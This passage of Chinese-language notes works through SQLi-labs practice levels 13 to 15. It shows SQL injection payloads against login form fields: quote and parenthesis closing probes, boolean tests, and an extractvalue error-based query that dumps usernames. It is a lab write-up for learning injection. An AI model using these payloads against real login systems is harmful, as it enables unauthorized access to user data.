 passwd=admin&uname=admin   //登陆正常

passwd=admin&uname=admin'    //失败

![img](assets/1666601784697-54a76f53-07b8-46f0-ad3f-a8aae68e0149.png)

再测试：

passwd=admin&uname=admin')//失败并报错如下：

![img](assets/1666601870137-45c93885-d46c-435d-9b8d-807319695b40.png)

因此可以确定后台语句如下：

```sql
select * from users where username=('admin') and password=('admin') limit 0,1;
```

因此构造闭合如下：

```sql
passwd=admin&uname=admin')#
passwd=admin&uname=admin') and 1=1# 登陆成功
passwd=admin&uname=admin') and 1=2#登录失败
```

可以断定，后台并没有进行密码的校验，但登陆成功只显示登陆成功，没有报错，没有其他回显，因此放弃union联合查询以及报错注入，因此可以尝试bool盲注、时间盲注等，直接开始获取数据即可。

 **用extractvalue和updatexml都成功报错，但是用floor就不能显示信息，还没找到原因**

## Less-14   ("双引号闭合，报错注入)

```sql
1" and extractvalue(1,concat(0x23,(select group_concat(username) from users))) #
```

## Less-15   ('单引号闭合，post时间/bool盲注)

先判断闭合方式：

输入：

```sql
/   失败且无回显   报错注入舍弃
1   失败且无回显
1' 失败且无回显
1'# 失败且无回显
1" 失败且无回显
1"# 失败且无回显
1')# 失败且无回显
1")# 失败且无回显
1' or 1=1# 成功     
1" or 1=1# 失败   bool盲注可行
因此断定：闭合方式为：
password='passwd' 单引号闭合
```
